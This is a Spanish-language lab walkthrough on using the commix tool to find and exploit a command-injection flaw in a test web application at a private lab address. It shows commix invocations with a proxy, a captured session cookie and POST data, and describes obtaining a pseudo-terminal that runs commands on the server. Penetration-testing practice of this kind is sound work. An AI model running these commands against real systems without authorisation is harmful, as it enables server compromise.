

https://github.com/commixproject/commix
Commix puede que sea la referencia cuando hablamos de inyecciones de comandos
sudo apt install commix
Vamos a ver algunos casos de uso genéricos en nuestro laboratorio virtual:
Login admin password
commix -u http://192.168.20.133:1335/vulnerabilities/exec/
Si no encuentra ningún parámetro o no puede acceder por requerir un login tenemos algunas opciones:
commix -u http://192.168.20.133:1335/vulnerabilities/exec/ --level 3
Indica que busque además de en la url en otros prámetros del codigo fuente.
Podemos indicarle un proxy
commix -u http://192.168.20.133:1335/vulnerabilities/exec/ --level 3 --proxy http://127.0.0.1:4444
Cuando la aplicación web tiene una autenticación podemos indicar lo siguiente:
Con Burpsuite accedemos a la web y nos logeamos, lo que significa que se crea una cookie de sesión
Si la capturamos podemos copiar la cadena de la cookie session y la indicamos en commix:
commix -u http://192.168.20.133:1335/vulnerabilities/exec/ --cookie="PHPSESSID=hsvemq0vu2ti7mv8gqsi7p7gb6; security=low" --proxy http://127.0.0.1:4444

no encuentra parámetros pero no redirecciona.
No encuentra parámetros porque por defecto los busca en la URL pero en este caso el parámetro que buscamos se encuentra en el body:
Copiamos el parámetro:
commix -u http://192.168.20.133:1335/vulnerabilities/exec/ --cookie="PHPSESSID=hsvemq0vu2ti7mv8gqsi7p7gb6; security=low" --proxy http://127.0.0.1:4444 --data="ip=192.168.20.133&Submit=Submit"
Pasado un rato ha sido capaz de encontrar un parámetro vulnerable:
Además pregunta si queremos una pseudo-terminal o falsa terminal.
Esto nos proporciona una terminal en la que podemos introducir comandos naturales y automáticamente trata de inyectarlos en el servidor mediante el parámetro vulnerable que acaba de encontrar.
Por lo tanto es como si estuviesemos ejecutando los comandos en el servidor de la aplicación web mediante una reverse shell: